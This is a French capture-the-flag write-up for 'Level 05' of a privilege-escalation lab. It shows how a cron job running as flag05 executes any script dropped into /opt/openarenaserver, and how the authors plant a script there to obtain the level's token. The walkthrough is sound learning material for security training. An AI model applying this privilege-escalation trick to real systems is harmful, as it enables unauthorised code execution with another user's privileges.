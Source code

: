 # Level 05

Cette fois ci, il n'existe aucun fichier dans le home de l'utilisateur `level05`, par reflex nous avons exécuté la commande magique `find`

```shell
~ find / -name level05 2> /tmp/error
/var/mail/level05
/rofs/var/mail/level05
```

Level 05 à donc reçu un mail.

```shell
~ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Le contenu du mail est une `crontab` qui execute avec les privilèges de `flag05` la commande `sh /usr/sbin/openarenaserver` toutes les 2 minutes.

On s'est demandée ce que fessait `/usr/sbin/openarenaserver`, selon sa façon d'être exécuter c'est un script `shell`, on doit pouvoir le cat

```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

Le script récupère donc tous les fichiers dans `/opt/openarenaserver` et les executes avec `bash`, puis les supprimes

Nous avons donc `scp` un script bash qui appel la commande `getflag` et redirige la sortie dans un fichier dans `/tmp`

```shell
~ scp -P 4242 script level05@192.168.56.101:/opt/openarenaserver
level05@192.168.56.101s password:
script                                          100%   37    28.7KB/s   00:00
~ chmod 777 /opt/openarenaserver/script
~ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
~ su level06
Password:
```

